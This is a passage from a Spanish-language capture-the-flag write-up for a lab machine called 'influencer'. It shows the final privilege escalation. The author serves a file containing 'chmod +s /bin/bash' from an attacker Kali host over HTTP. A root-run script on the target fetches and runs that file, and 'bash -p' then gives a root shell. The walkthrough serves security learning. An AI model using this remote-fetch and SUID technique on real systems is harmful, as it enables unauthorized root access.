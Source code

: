 En mi máquina, creo un archivo llamado igual que en el script "check.sh" y despues inicio un servidor en el puerto 80.

```
kali@kali:~/Desktop$ cat 98127651        
chmod +s /bin/bash
                                                                                                                    
kali@kali:~/Desktop$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Al ejecutar el script como **root** se realiza la petición y se ejecuta el script que he creado por lo que ahora **/bin/bash** tiene permisos SUID y obtener acceso como root es trivial.

```
juan@influencer:~$ sudo /bin/bash /home/juan/check.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    19  100    19    0     0    606      0 --:--:-- --:--:-- --:--:--   612
juan@influencer:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 ene  6  2022 /bin/bash
juan@influencer:~$ bash -p
bash-5.1# whoami
root
bash-5.1# :)
```

Muchas gracias a **D3b0o** por esta máquina.
